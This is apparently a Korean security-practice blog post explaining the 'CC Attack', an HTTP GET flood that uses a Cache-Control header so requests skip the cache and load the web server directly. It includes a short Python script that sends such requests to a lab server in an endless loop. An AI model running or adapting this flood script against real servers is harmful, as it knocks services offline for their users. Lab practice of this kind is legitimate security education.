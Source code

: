 ```yaml
---
layout: post
title: CC Attack
subtitle: GET Flooding
gh-repo: nohtaeyoung/nohtaeyoung.github.io
gh-badge: [star, fork, follow]
cover-img: /assets/img/security.jpg
tags: [Network Hacking]
comments: true
---
```


{: .box-note}
<b>블로그 내의 모든 예시와 실습은 VMware workstation16.2.3, Kali Linux 2022.03, CentOS6.5를 활용 합니다.<br></b>

## CC Attack(=GET Flooding with Cache-Control Attack)
- HTTP Request의 Cache-Control 메시지 헤더를 조작하여 Cache 서비스가 가능한 자원도 웹 서버가 직접 처리하도록 유도한다.
  - Cache-Control: no-store; must-revalidate
  - no-store -> 클라이언트에게 요청 받은 데이터를 디스크, 메모리, 별도의 저장 장치(Cache Server)에 저장하는 것을 금지
  - must-revalidate -> 웹 서버가 Caching Server에게 저장된 Cache에 대한 검증을 요구하는 메시지(서버가 전달하는 값)
- <b style="color:red">Caching 기능을 무력화 시켜서 웹 서버의 부하를 유발</b>하는 공격
- Caching Server를 운영하는 웹 사이트가 공격 대상이 될 수 있다.

# 실습
## python code 구현

```javascript
vi http_getflood.py

import socket
import time
 
request_header = 'GET /INDEX.html HTTP/1.1\r\n'
request_header += 'HOST: 172.16.0.210\r\n'
request_header += 'Cache-Control: no-cache\r\n'
request_header += '\r\n'
 
sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
sock.connect(('172.16.0.210',80))
 
while True:
    sock.send(request_header.encode())
```

## 공격 확인(kali에서 wire shark)

![dhcp spoofing1](../assets/img/cc_attack.png)
